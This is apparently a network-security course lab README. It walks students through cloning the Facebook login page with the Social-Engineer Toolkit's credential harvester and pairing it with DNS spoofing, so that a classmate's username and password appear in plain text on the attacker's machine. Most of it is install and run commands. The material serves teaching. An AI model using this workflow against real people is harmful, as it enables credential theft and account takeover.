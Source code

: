 # Phishing Attack

Phishing is a type of social engineering where an attacker sends a fraudulent (e.g., spoofed, fake, or otherwise deceptive) message designed to trick a person into revealing sensitive information to the attacker (a password or credential) or to deploy malicious software on the victim's infrastructure like ransomware.

Phishing attacks have become increasingly sophisticated and often transparently mirror the site being targeted, allowing the attacker to observe everything while the victim is navigating the site, and transverse any additional security boundaries with the victim. 
 
Phishing is by far the most common attack performed by cybercriminal

## Facebook Phishing Attack
### **Goal**
In this session, our goal is to clone the facebook website and to apply a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack using ettercarp in order to retrieve victim's credentials.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Follow the guideline in order to perform a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack against the victim ip address
 2. Install ***S**oftware **E**ngineering **Toolkit*** (**setoolkit**)

        git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
        cd set
        sudo python3 setup.py install
 3. Install **Apache2**

        sudo apt update
        sudo apt install apache2
 4. Install and enable **libapache2-mod-php**

        cd /etc/apache2/mods-available
        sudo apt install libapache2-mod-php*
        sudo a2enmod phpX.Y
    * **Attention:** substitute `X.Y`with your `php` version; if comaptibility errors with libapache2-mod-php**5** are shown, disable module libapache2-mod-php

 5. Configure setoolkit

        sudo su
        pico /etc/setoolkit/set.config

    * Edit the following parameters:
        
        * **APACHE_SERVER ON**
        * **APACHE_DIRECTORY /var/www/html**
 6. Run **setoolkit** as superuser
    
        sudo setoolkit

 7. Use the interactive shell to clone the facebook website

        enter 1 - Social-Engineering Attacks
        enter 2 - Website Attack Vectors
        enter 3 - Credential Harvester Attack Method
        enter 2 - Site Cloner
 8. Enter your (**Attacker**) ip address
 9. Enter the website url you want to clone, (e.g., **www.facebook.com**)
 10. On the **Victim** side try to ping **www.facebook.com**

            ping -n www.facebook.com
    
        * You should see the ip address of the **Attacker** instead of the ip address of the (real) facebook server
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/1.dns_spoof_ping_test.png?raw=true)

 11. Navigate **www.facebook.com** from the **Victim** pc
 12. Fillin **username** and **password** fields
 13. Come back to **Attacker** machine to see in **plain text** the username and password as filled in by the **Victim**
 ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/2.phishing.png?raw=true)

**Attention:** if the **Victim** browser has the auto-redirect to https option enabled, the **Victim** will be redirected to **https** web page so, you need to enable also the **ssl** module on your **apache2** webserver 

